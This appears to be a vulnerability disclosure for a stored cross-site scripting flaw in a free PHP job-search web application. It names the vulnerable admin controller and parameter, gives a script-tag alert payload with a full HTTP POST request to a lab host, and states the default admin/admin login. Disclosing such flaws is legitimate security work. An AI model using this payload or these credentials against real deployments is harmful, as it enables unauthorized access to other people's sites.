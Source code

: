 # Complete Online Job Search System v1.0 has Cross-Site Scripting (XSS)

**Vul_Author**: **Yingsha Xu**

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/category/controller.php

Vulnerability location: /eris/admin/category/controller.php?action=edit, CATEGORY

[+] Payload: <script>alert(1)</script>

Tested on Windows 10, phpStudy

There is an example with alert: 

```sql
POST /eris/admin/category/controller.php?action=edit HTTP/1.1
Host: 10.10.10.134
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://10.10.10.134
DNT: 1
Connection: close
Referer: http://10.10.10.134/eris/admin/category/index.php?view=edit&id=24
Cookie: PHPSESSID=vf7g6ffd2s4el0u0gia3elgg14
Upgrade-Insecure-Requests: 1

CATEGORYID=24&CATEGORY=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&save=
```

![](E:\HK\study\CVE\0702\2\xss.gif)